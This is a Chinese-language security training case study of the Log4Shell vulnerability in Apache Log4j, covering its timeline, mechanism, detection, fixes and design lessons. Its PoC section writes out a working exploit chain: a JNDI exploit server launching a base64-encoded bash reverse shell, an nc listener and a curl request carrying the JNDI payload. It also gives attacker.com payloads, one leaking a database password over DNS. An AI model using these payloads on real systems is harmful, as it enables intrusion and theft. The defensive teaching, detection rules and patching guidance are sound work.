




## 案例一：Log4Shell漏洞（CVE-2021-44228）

Log4Shell 是近十年来影响范围最广、危害程度最深的安全漏洞之一。它潜伏了七年之久，藏身于全球最广泛使用的 Java 日志组件中，于 2021 年 12 月被公开后，瞬间将数百万台服务器暴露在远程代码执行（RCE）风险之下。本案例不仅是学习漏洞利用技术的经典教材，更是培养安全思维的绝佳素材——它揭示了**信任链断裂**、**功能滥用**、**供应链盲区**三大安全思维盲点。

### 漏洞档案

| 字段 | 内容 |
|------|------|
| CVE 编号 | CVE-2021-44228 |
| 别名 | Log4Shell, LogJam |
| CVSS 评分 | 10.0（最高，Critical） |
| 影响组件 | Apache Log4j 2.x（2.0-beta9 至 2.14.1） |
| 漏洞类型 | 远程代码执行（RCE） |
| 攻击复杂度 | 极低（无需认证，单条字符串即可触发） |
| 发现者 | 阿里云安全团队 Chen Zhaojun |
| 公开时间 | 2021 年 12 月 9 日 |
| 修复版本 | Log4j 2.15.0（后续又发现绕过，最终需 2.17.0） |
| 影响范围 | 全球数百万台服务器，涉及几乎所有 Java 生态 |

### 时间线：从潜伏到爆发

Log4Shell 的生命周期揭示了一个残酷事实：一个简单的功能设计缺陷可以在全球基础设施中静默潜伏七年。

| 时间 | 事件 |
|------|------|
| 2013 年 | Log4j 2.0-alpha 发布，引入 JNDI Lookup 功能 |
| 2013–2021 年 | 该功能在全球数百万项目中被默认启用，无人质疑 |
| 2021 年 11 月 24 日 | 阿里云安全团队向 Apache 报告漏洞 |
| 2021 年 12 月 7 日 | 漏洞细节被提前泄露到社交媒体 |
| 2021 年 12 月 9 日 | CVE-2021-44228 正式公开，PoC 大量扩散 |
| 2021 年 12 月 10 日 | 全球范围内大规模利用开始 |
| 2021 年 12 月 10 日 | Apache 发布 Log4j 2.15.0 修复 |
| 2021 年 12 月 14 日 | 发现 2.15.0 的绕过（CVE-2021-45046） |
| 2021 年 12 月 17 日 | Apache 发布 2.16.0 彻底修复 |
| 2021 年 12 月 28 日 | 再发现 DoS 漏洞（CVE-2021-45105），发布 2.17.0 |
| 2022 年 1 月 4 日 | 又发现 2.17.0 的 RCE 绕过（CVE-2021-44832），发布 2.17.1 |

> **安全思维启示**：一个漏洞的修复过程本身就是一场攻防博弈。修复方案不够彻底，攻击者就会找到绕过路径。这正是为什么安全思维强调"纵深防御"而非"单一修复点"。

### 技术原理深度剖析

#### JNDI Lookup 机制

JNDI（Java Naming and Directory Interface）是 Java 平台的目录服务接口，允许 Java 程序通过统一的 API 访问各种命名和目录服务，包括 LDAP、RMI、DNS、CORBA 等。

Log4j 2.x 提供了一个名为 **Message Lookup** 的功能：当日志消息中包含 `${...}` 格式的表达式时，Log4j 会在输出前对其进行解析和替换。它支持多种 Lookup 前缀：

| Lookup 前缀 | 功能 | 风险等级 |
|-------------|------|----------|
| `${env:...}` | 读取环境变量 | 中（信息泄露） |
| `${sys:...}` | 读取系统属性 | 中（信息泄露） |
| `${date:...}` | 格式化日期 | 低 |
| `${jndi:...}` | 执行 JNDI 查询 | **极高（RCE）** |
| `${lower:...}` | 字符串转小写 | 低 |
| `${upper:...}` | 字符串转大写 | 低 |

关键问题在于：**JNDI Lookup 允许连接远程服务器**。当 Log4j 解析 `${jndi:ldap://attacker.com/exploit}` 时，Java 运行时会向 `attacker.com` 的 LDAP 服务器发起请求，获取响应数据，并根据响应内容加载远程 Java 类。

#### 攻击链全景



#### 攻击向量的多样性

Log4Shell 的可怕之处在于：**日志记录发生在应用的每一个角落**。只要用户的任何输入最终被 Log4j 记录，攻击就可以触发。以下是常见的攻击向量：

| 向量 | 示例 | 触发位置 |
|------|------|----------|
| HTTP Header | `User-Agent: ${jndi:ldap://...}` | 访问日志记录 |
| HTTP Header | `X-Forwarded-For: ${jndi:ldap://...}` | 代理日志 |
| URL 路径 | `GET /${jndi:ldap://...}` | 请求路径日志 |
| 表单输入 | 登录用户名 `${jndi:ldap://...}` | 认证失败日志 |
| API 参数 | JSON body 中任意字段 | 业务日志 |
| 搜索框 | 搜索关键词 `${jndi:ldap://...}` | 搜索日志 |
| HTTP Header | `Accept-Language: ${jndi:ldap://...}` | 请求头日志 |
| 文件名 | 上传文件名 `${jndi:ldap://...}` | 文件处理日志 |
| SMTP | 邮件主题/发件人 `${jndi:ldap://...}` | 邮件网关日志 |
| DNS | 子域名 `${jndi:ldap://...}` | DNS 日志 |

> **安全思维启示**：攻击面不是你看到的入口，而是所有数据最终流向的地方。开发者只关注了直接输入点（表单、API），却忽略了日志这个"间接"的数据汇聚点。

#### 触发漏洞的代码示例

一段典型的"安全"代码，实际上完全暴露在 Log4Shell 之下：

```java
// 看起来完全正常的用户登录处理代码
public void handleLogin(HttpServletRequest request) {
    String username = request.getHeader("X-Custom-User");
    
    // 开发者认为这里只是记录日志，不会执行代码
    // 但 Log4j 会解析 ${jndi:...} 表达式！
    log.info("Login attempt from user: {}", username);
    
    // ... 正常的认证逻辑
}
```

攻击者只需发送以下 HTTP 请求：

```http
GET /api/login HTTP/1.1
Host: target.com
X-Custom-User: ${jndi:ldap://attacker.com:1389/exploit}
```

服务端日志会记录 `"Login attempt from user: ${jndi:ldap://attacker.com:1389/exploit}"`，Log4j 在格式化这条日志时触发 JNDI Lookup，连接攻击者的 LDAP 服务器，下载并执行恶意 Java 类。

#### 漏洞利用 PoC 完整流程

以下是一个完整的本地复现环境搭建和利用流程，用于学习和验证目的：

**第一步：启动恶意 LDAP + HTTP 服务**

```bash
# 使用 JNDI-Injection-Exploit 工具
# 下载地址：https://github.com/welk1n/JNDI-Injection-Exploit
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \
  -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" \
  -A "10.0.0.1"

# 工具会自动启动：
# - LDAP 服务：ldap://10.0.0.1:1389/exploit
# - HTTP 服务：http://10.0.0.1:8888/Exploit.class
```

**第二步：启动反向 Shell 监听**

```bash
# 攻击机上监听反弹连接
nc -lvnp 4444
```

**第三步：发送恶意请求**

```bash
# 向目标发送包含 JNDI 注入的请求
curl "http://target:8080/api/login" \
  -H "X-Custom-User: \${jndi:ldap://10.0.0.1:1389/exploit}"
```

**第四步：验证**

```bash
# 在 nc 监听端看到反弹 Shell
Connection from 10.0.0.2:49312
bash: no job control in this shell
target@server:~$ id
uid=1000(app) gid=1000(app) groups=1000(app)
```

#### 为什么 JDK 高版本也受影响

一个常见的误解是"高版本 JDK 已经修复了 JNDI 注入"。确实，JDK 8u191+ 和 JDK 11.0.1+ 默认禁止了远程代码库加载（`com.sun.jndi.ldap.object.trustURLCodebase=false`）。但 Log4Shell 依然可以利用：

- **信息泄露**：即使不执行代码，攻击者也可以通过 DNS/HTTP 回连（out-of-band）读取目标的环境变量、系统属性、内网 IP 等敏感信息。例如 `${jndi:ldap://${env:DB_PASSWORD}.attacker.com}` 会将数据库密码泄露到攻击者的 DNS 日志中。
- **本地 Class 利用**：目标 ClassPath 中已有的第三方库（如 Tomcat 的 BeanFactory + ELProcessor、H2 数据库的 JndiReferenceFactory）可以被利用来实现代码执行，无需远程加载 Class。
- **绕过补丁**：CVE-2021-45046 证明 2.15.0 的修复不完整，在特定配置下（如 PatternLayout 中使用 Context Lookups）仍可绕过。

> **安全思维启示**：不要假设"我的 JDK 版本够新所以安全"。安全是一个持续的、多层的过程，单一条件的"安全"几乎总是不完整的。

### 为什么会潜伏七年：三大思维盲区

#### 盲区一：信任假设——"日志库是安全的"

这是最根本的思维盲区。开发者普遍将日志库视为"基础设施"，就像操作系统 API 一样值得信赖。他们不会去审计 `log.info()` 调用是否存在安全风险，就像不会审计 `System.out.println()` 一样。

**认知偏差分析**：
- **权威偏差**：Log4j 是 Apache 基金会维护的项目，带有"官方"光环
- **从众偏差**：全球数百万项目都在用，"如果它有问题，早就被发现了"
- **功能偏差**：日志库的职责就是"记录文本"，开发者不会去想它会"执行代码"

**纠正方法**：建立"零信任供应链"思维——即使是 Apache、Google、Microsoft 维护的库，也需要进行安全审计。依赖项不是"安全的"，只是"还没被发现有问题的"。

#### 盲区二：功能即风险——JNDI Lookup 的设计初衷

JNDI Lookup 功能的设计初衷是"方便"：允许开发者在日志配置中动态引用环境变量、系统属性等信息。例如 `${java:os}` 可以在日志中显示操作系统信息。

**设计缺陷的本质**：
- 功能设计时只考虑了"能做什么"，没有考虑"被滥用会怎样"
- JNDI Lookup 是**默认启用**的，开发者甚至不知道它的存在
- 没有沙箱隔离：日志格式化与远程代码执行之间没有安全边界

**功能滥用的层次**：



**纠正方法**：在设计任何功能时，执行"滥用场景分析"——列出所有可能的输入来源，思考每种输入被恶意构造后的行为。

#### 盲区三：数据流盲区——日志是"终点"还是"中转站"？

大多数开发者将日志视为数据流的**终点**：数据进来，被记录到文件，流程结束。但 Log4Shell 证明日志可以是一个**中转站**：数据进来，被解析、被 Lookup、被远程查询，数据流继续延伸。

**数据流追踪对比**：

| 开发者看到的数据流 | 实际的数据流 |
|-------------------|-------------|
| 用户输入 → 表单验证 → 业务处理 → 日志记录 | 用户输入 → 表单验证 → 业务处理 → 日志记录 → **JNDI 解析** → **LDAP 请求** → **远程类加载** → **代码执行** |
| 认为日志是"只读"操作 | 日志格式化可以触发网络请求和代码执行 |

**纠正方法**：对每一个数据汇聚点（日志、缓存、序列化、模板渲染）执行完整的数据流追踪，标记所有可能的"执行"路径。

### 真实世界影响

#### 攻击规模

Log4Shell 公开后的 72 小时内，攻击规模呈指数级增长：

- **Cloudflare 报告**：在漏洞公开后的 24 小时内，每小时拦截超过 10 万次利用尝试
- **Check Point 报告**：公开后 48 小时内，超过 40% 的企业网络遭受了 Log4Shell 攻击尝试
- **微软报告**：观察到多个国家级 APT 组织利用 Log4Shell 进行初始访问

#### 被攻击的知名目标

| 目标 | 影响 | 攻击者类型 |
|------|------|-----------|
| VMware Horizon | 大量企业 VPN/VDI 环境被入侵 | 勒索软件组织 |
| Apache Struts / Spring Boot 应用 | 数十万 Java Web 应用受影响 | 扫描器自动化利用 |
| Minecraft 服务器 | 通过聊天消息即可触发 | 脚本小子 |
| 云服务商 SaaS 平台 | 多租户环境隔离被打破 | 高级威胁组织 |
| 智能家居/IoT 平台 | 大量设备使用 Java 后端 | 僵尸网络 |

#### 后续利用模式

Log4Shell 不仅被用于初始入侵，还被深度整合到攻击链中：



Conti 勒索组织在漏洞公开后 24 小时内就将其整合到攻击工具集；伊朗 APT 组织 Phosphorus（APT35）利用 Log4Shell 入侵以色列关键基础设施。

### 检测方法

#### 本地检测：识别受影响组件

```bash
# 方法一：使用 Maven 依赖树分析
mvn dependency:tree | grep log4j

# 方法二：Gradle 项目
./gradlew dependencies | grep log4j

# 方法三：直接搜索 JAR 文件
find / -name "log4j-core-*.jar" 2>/dev/null | while read jar; do
    version=$(unzip -p "$jar" META-INF/MANIFEST.MF 2>/dev/null | grep "Implementation-Version" | cut -d: -f2 | tr -d ' ')
    echo "$jar -> version: $version"
done

# 方法四：使用 log4j-scan 工具（推荐）
# https://github.com/cisagov/log4j-scanner
python3 log4j-scan.py --target https://your-app.com

# 方法五：检查 classpath 中是否包含 JndiLookup.class
find / -path "*/org/apache/logging/log4j/core/lookup/JndiLookup.class" 2>/dev/null
```

#### 网络侧检测：识别攻击流量

```bash
# Snort/Suricata 规则
alert tcp any any -> $HTTP_SERVERS $HTTP_PORTS (
    msg:"Log4Shell JNDI Injection Attempt";
    content:"jndi:"; nocase;
    content:"ldap://"; nocase; distance: 0;
    sid:2021121001; rev:1;
)

# Nginx 日志分析：查找攻击痕迹
grep -E '\$\{jndi:' /var/log/nginx/access.log | \
    awk '{print $1}' | sort | uniq -c | sort -rn | head -20

# WAF 日志分析
grep -iE 'jndi:(ldap|rmi|dns|corba|nds)://' /var/log/waf/*.log
```

#### 运行时检测：识别利用行为

```java
// 使用 Java Agent 拦截 JNDI 调用
// 适用于无法立即升级的场景
public class JndiLookupMonitor {
    public static void premain(String args, Instrumentation inst) {
        inst.addTransformer(new ClassFileTransformer() {
            @Override
            public byte[] transform(ClassLoader loader, String className,
                    Class<?> classBeingRedefined, ProtectionDomain domain,
                    byte[] classfileBuffer) {
                if ("javax/naming/InitialContext".equals(className)) {
                    System.out.println("[ALERT] JNDI lookup detected from: " + 
                        loader.getClass().getName());
                    // 记录堆栈信息用于溯源
                    Thread.dumpStack();
                }
                return null;
            }
        });
    }
}
```

### 修复与防御

#### 紧急修复方案（按优先级排序）

**方案一：升级 Log4j（推荐，根治方案）**

```xml
<!-- Maven pom.xml -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.17.1</version> <!-- 2.17.1 修复了所有已知 RCE -->
</dependency>
```

```gradle
// Gradle build.gradle
implementation 'org.apache.logging.log4j:log4j-core:2.17.1'
```

**方案二：移除 JndiLookup 类（无法立即升级时的应急方案）**

```bash
# 从 JAR 中移除危险类
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

# 验证移除成功
jar -tf log4j-core-*.jar | grep JndiLookup
# 应该没有输出
```

**方案三：设置 JVM 系统属性（仅限 JNDI 被完全禁用的场景）**

```bash
# 启动 JVM 时添加以下参数
-Dlog4j2.formatMsgNoLookups=true

# 对于 Log4j 2.10+（但 < 2.15.0），这是一个有效的缓解措施
# 注意：不适用于使用 Context Lookups 的场景
```

**方案四：WAF 规则（作为纵深防御层）**

```nginx
# Nginx 层面拦截
location / {
    # 拦截常见 JNDI 注入模式
    if ($http_user_agent ~* '\$\{jndi:') { return 403; }
    if ($http_referer ~* '\$\{jndi:') { return 403; }
    if ($request_uri ~* '\$\{jndi:') { return 403; }
    
    # 拦截所有 ${...} 模式（可能误报，需要根据业务调整）
    if ($request_uri ~* '\$\{') { return 403; }
    
    proxy_pass http://backend;
}
```

```apache
# Apache httpd 层面拦截
<IfModule mod_rewrite.c>
    RewriteEngine On
    RewriteCond %{QUERY_STRING} \$\{jndi: [NC,OR]
    RewriteCond %{HTTP_REFERER} \$\{jndi: [NC,OR]
    RewriteCond %{HTTP_USER_AGENT} \$\{jndi: [NC]
    RewriteRule .* - [F,L]
</IfModule>
```

#### 验证修复效果

```bash
# 验证 1：确认升级版本
mvn dependency:tree | grep log4j-core
# 应显示 2.17.1

# 验证 2：确认 JndiLookup 类已不存在
jar -tf $(find . -name "log4j-core-*.jar" | head -1) | grep JndiLookup
# 如果已移除，应无输出

# 验证 3：发送测试 payload，确认不触发
curl -H "X-Test: \${jndi:ldap://canary.test/log4shell}" http://localhost:8080/
# 检查日志中是否原样记录了字符串（未被解析）
tail -f /var/log/app.log | grep "jndi"
# 应该看到原样字符串，不是 "ERROR" 或连接失败

# 验证 4：使用 DNS Canary 确认无外连
# 设置 canary token（https://canarytokens.org）
# 生成 ${jndi:ldap://TOKEN.canarytokens.com/a}
# 发送到应用，确认 Canary 无回调
```

### 从安全思维角度的深度分析

#### 信任边界模型

Log4Shell 的本质是一个**信任边界突破**。以下模型清晰展示了问题所在：



#### 类似漏洞的模式识别

Log4Shell 并非孤例。以下漏洞遵循相同模式——"安全的"数据处理路径被发现具有执行能力：

| 漏洞 | 组件 | "安全"路径 | 实际能力 |
|------|------|-----------|---------|
| Log4Shell (CVE-2021-44228) | Log4j | 日志格式化 | RCE |
| Spring4Shell (CVE-2022-22965) | Spring Framework | 参数绑定 | RCE |
| Struts2-045 (CVE-2017-5638) | Apache Struts | Content-Type 解析 | RCE |
| Fastjson (CVE-2022-25845) | Fastjson | JSON 反序列化 | RCE |
| XStream (CVE-2021-39139) | XStream | XML 反序列化 | RCE |
| FreeMarker SSTI | FreeMarker | 模板渲染 | RCE |
| Thymeleaf SSTI | Thymeleaf | 模板渲染 | RCE |

**共同模式**：数据处理引擎 + 动态解析能力 + 不安全的输入 = RCE。

#### 防御思维训练

**训练一：数据流追踪练习**

选取你项目中的一个用户输入点（如 HTTP Header），绘制从输入到最终处理的完整数据流图。标记每一个"处理节点"（不仅仅是业务逻辑，还包括日志、缓存、序列化、模板渲染、消息队列等），逐一分析每个节点是否存在"执行"能力。

**训练二：滥用场景分析**

对你项目中使用的每一个第三方库，执行以下分析：
1. 它有哪些"便利功能"？
2. 这些功能是否接受外部输入？
3. 如果输入被恶意构造，会发生什么？
4. 这些功能是否默认启用？能否禁用？

**训练三：供应链审计**

```bash
# 使用 OWASP Dependency-Check 扫描项目依赖
dependency-check --project "MyProject" \
  --scan ./src \
  --out ./report \
  --format HTML

# 使用 Snyk 检测已知漏洞
snyk test

# 使用 Trivy 扫描容器镜像
trivy image myapp:latest
```

### 总结

Log4Shell 的教训远不止于"升级 Log4j"。它揭示了安全思维的核心要素：

1. **零信任原则**：不信任任何组件——无论是自己写的代码、第三方库、还是日志库。每一个数据处理节点都可能是攻击面。
2. **数据流全局观**：用户输入的生命周期不止于业务逻辑。日志、缓存、序列化、模板、消息队列都是数据流的延续。
3. **功能滥用分析**：每一个"便利功能"都是一把双刃剑。在设计和引入功能时，必须执行滥用场景分析。
4. **纵深防御**：没有单一的修复方案是万无一失的。升级、移除危险类、设置 JVM 参数、WAF 规则——多层防御缺一不可。
5. **供应链安全意识**：全球最广泛使用的 Java 库之一，拥有数以万计的用户和贡献者，依然潜藏了七年的严重漏洞。供应链安全不是可选项，而是必选项。

当你面对一个新系统时，不要问"它安全吗"，而要问"它在哪里不安全"。这种思维转变，就是安全思维的核心。
